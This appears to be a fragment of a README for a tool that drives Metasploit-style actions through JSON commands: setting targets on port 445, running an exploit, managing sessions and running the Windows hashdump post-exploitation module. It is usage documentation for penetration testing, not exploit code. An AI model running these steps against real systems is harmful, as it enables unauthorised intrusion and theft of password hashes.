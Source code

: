 ```bash
```

### Exploit Execution
```bash
# Set options
{
  "action": "set_options",
  "options": {
    "RHOSTS": "192.168.1.100",
    "RPORT": 445,
    "LHOST": "192.168.1.100",
    "LPORT": 4444
  }
}

# Run exploit
{
  "action": "run_exploit",
  "target": "192.168.1.100"
}
```

### Session Management
```bash
# List sessions
{
  "action": "list_sessions"
}

# Interact with session
{
  "action": "interact_session",
  "session_id": 1
}
```

### Post-Exploitation
```bash
# Run post module
{
  "action": "run_post_module",
  "module": "post/windows/gather/hashdump",
  "session_id": 1
}

# List post modules
{
  "action": "list_post_modules",
  "platform": "windows"
}
```
